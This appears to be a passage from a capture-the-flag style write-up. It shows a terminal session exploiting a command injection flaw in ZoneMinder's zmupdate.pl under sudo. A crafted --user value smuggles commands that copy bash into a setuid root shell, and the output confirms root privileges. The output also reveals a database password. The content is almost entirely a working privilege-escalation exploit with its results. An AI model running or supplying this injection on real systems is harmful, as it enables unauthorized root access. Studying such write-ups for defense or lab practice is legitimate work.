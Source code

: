 #### Exploit command injection vulnerability to spawn root shell
```
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo /usr/bin/zmupdate.pl --version=1 --user=';cp /bin/bash /tmp/root_shell;chmod +s /tmp/root_shell;'; /tmp/root_shell -p
<hell;chmod +s /tmp/root_shell;'; /tmp/root_shell -p

Initiating database upgrade to version 1.36.32 from version 1

WARNING - You have specified an upgrade from version 1 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 


Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : n
n

Upgrading database to version 1.36.32
Upgrading DB to 1.26.1 from 1.26.0
mysql: option '-u' requires an argument
sh: 1: -pZoneMinderPassword2023: not found
Output: 
Command 'mysql -u;cp /bin/bash /tmp/root_shell;chmod +s /tmp/root_shell; -p'ZoneMinderPassword2023' -hlocalhost zm < /usr/share/zoneminder/db/zm_update-1.26.1.sql' exited with status: 127
root_shell-5.1# id
id
uid=1001(zoneminder) gid=1001(zoneminder) euid=0(root) egid=0(root) groups=0(root),1001(zoneminder)
```

